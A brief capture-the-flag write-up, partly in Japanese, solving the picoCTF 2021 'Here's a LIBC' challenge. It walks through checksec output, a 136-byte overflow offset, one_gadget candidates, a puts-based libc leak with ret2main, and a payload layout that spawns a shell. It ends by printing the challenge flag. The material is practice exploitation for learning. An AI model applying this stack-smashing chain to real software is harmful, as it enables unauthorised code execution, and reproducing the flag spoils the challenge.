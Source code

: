 ## Description
>I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 49464

## Writeup
```
gef➤  checksec
[+] checksec for '/home/pwn/challenges/picoCTF2021/Here's a LIBC/attachment/vuln'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

```
gef➤  pattern search $rsp
[+] Searching for '7261616161616161'/'6161616161616172' with period=8
[+] Found at offset 136 (little-endian search) likely
```

```
$ one_gadget given_libc.so.6 
0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

putsでlibc leakしてret2mainしてone gadget rceする。

```
0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
```
を使う。ローカルでone_gadget_addressにbreakpointを設定して、`b"A" * 136, p64(one_gadget_address), b"\x00" * 0x48`を投げると、
```
gef➤  x/xg $rsp+48
0x7ffc98cd0200: 0x0000000000000000
```
となっていたので、これを送る。

```
$ ls
flag.txt
libc.so.6
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_37b2dd6c2acb572a}$  
```

Flag: `picoCTF{1_<3_sm4sh_st4cking_37b2dd6c2acb572a}`

備考: `system("/bin/sh")`を呼び出しても解ける。